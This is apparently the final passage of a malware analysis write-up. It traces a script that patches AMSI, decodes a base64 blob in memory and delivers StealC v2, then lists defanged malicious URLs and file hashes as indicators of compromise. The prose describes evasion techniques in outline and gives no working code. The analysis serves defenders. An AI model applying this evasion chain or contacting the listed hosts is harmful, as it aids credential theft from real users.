

After patching AMSI, the script decodes a base64-encoded blob and executes it in memory.



If we take that blob into **CyberChef** and decode the base64 ourselves, we'll see that it contains a PE file.



The file in question appears to be an obfuscated .NET executable, which unpacks another stage and based on the signatures, is identified as StealC v2.





## Summary
In this article, we explored several obfuscation techniques used by attackers. As threat actors continue to evolve and develop new methods to evade detection and bypass security tools, it's crucial for defenders to continuously improve their skills and stay one step ahead.


# Indicators Of Compromise (IOC)
  <div class="ioc-table">

<div class="ioc-table">

<table>
  <colgroup>
    <col style={{ width: '64%' }} />
    <col style={{ width: '12%' }} />
    <col style={{ width: '24%' }} />
  </colgroup>
  <thead>
    <tr>
      <th>Indicators</th>
      <th>Type</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    {/* Hashes */}
    <tr><td>284abaa6b03c28bd5361afac5f45018c2d50487b12ee10ff33c9289efa29f8e4</td><td>SHA256</td><td></td></tr>
    <tr><td>095673da0aff9740a93acabc66a0302635518064bccda6f7f9f427feca8c07b1</td><td>SHA256</td><td></td></tr>
    <tr><td>5e4c4189bf3aebad2f6080e497549b137bfca1b96bf849b08d7337977b714b3d</td><td>SHA256</td><td></td></tr>
    <tr><td>f58a2d4aa2e4a0dba822535cf171a00a35b1d42a1f397a04dcd7c21a7543c9cb</td><td>SHA256</td><td></td></tr>

    {/* Domains / URLs / IPs */}
    <tr><td>hxxps[://]khaanabkt[.]fly[.]storage[.]tigris[.]dev/chaayeproceednext[.]html</td><td>URL</td><td></td></tr>
    <tr><td>hxxps[://]dybep[.]fun/fb88c1eb21d4fe2712723729ad2fe738[.]txt</td><td>URL</td><td></td></tr>
    <tr><td>hxxps[://]mq[.]dybep[.]fun/svml_dispmd</td><td>URL</td><td></td></tr>
  </tbody>
</table>

</div>


</div>